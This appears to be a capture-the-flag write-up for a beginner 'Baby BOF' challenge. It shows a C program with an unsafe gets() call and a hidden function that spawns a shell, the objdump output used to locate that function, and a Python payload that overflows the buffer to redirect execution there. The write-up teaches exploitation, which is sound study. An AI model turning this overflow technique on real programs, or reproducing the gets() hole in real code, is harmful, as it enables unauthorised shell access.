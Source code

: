 <h1>Baby BOF</h1>

First we can look at the babybof.c and see what we have:
  
  ```C
  
  #include<stdio.h>

  void you_cant_see_this_its_too_evil(){
      system("sh");
  }

  int main(){
      setvbuf(stdout,0,2,0);
      puts("Welcome to NCU AD 2017 Fall, Im yuawn :)");

      char buf[20];
      gets( buf );

      return 0;
  }
  ```
  
It is obvious that `gets( buf )` is the key to overflow.

For the next step, we will be to `objdump` to disassemble the program.
  
    000000000040064d <you_cant_see_this_its_too_evil>:
    40064d:	55                   	push   %rbp
    40064e:	48 89 e5             	mov    %rsp,%rbp
    400651:	bf 38 07 40 00       	mov    $0x400738,%edi
    400656:	b8 00 00 00 00       	mov    $0x0,%eax
    40065b:	e8 b0 fe ff ff       	callq  400510 <system@plt>
    400660:	5d                   	pop    %rbp
    400661:	c3                   	retq   

We can clearly see the address of the hidden function `you_cant_see_this_its_too_evil` is `0x40064d` and this will be our return address.

    400692:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
    400696:	48 89 c7             	mov    %rax,%rdi
    400699:	e8 a2 fe ff ff       	callq  400540 <gets@plt>
   
We also can see in `main` that `gets( buf )` starts to store to `-0x20(%rbp)` which equals to `rbp - 0x20`.

Therefore, our padding would be `0x28` bytes.

In the end, our playload will be:

```Python
b"A"*0x28 + p64(0x040064d)  
```

